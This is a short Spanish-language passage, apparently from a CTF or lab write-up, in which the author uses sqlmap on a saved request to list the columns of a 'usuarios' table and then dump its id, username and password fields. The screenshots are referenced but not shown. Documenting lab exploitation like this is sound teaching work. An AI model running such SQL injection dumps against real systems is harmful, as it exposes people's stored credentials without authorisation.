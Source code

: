 

Por lo que vemos contiene una tabla llamada `usuarios`, por lo que haremos lo siguiente.
```
sqlmap -r request.txt -D users -T usuarios --columns
```

<p align="center">
    <img src="../img/Pasted_image_20250102205307.png" width="500">
</p>

Ahora sabiendo que las columnas se llaman así, podremos ver el contenido de cada una haciendo lo siguiente.
```
sqlmap -r request.txt -D users -T usuarios -C id,username,password --dump
```

<p align="center">
    <img src="../img/Pasted_image_20250102205357.png" width="500">
</p>
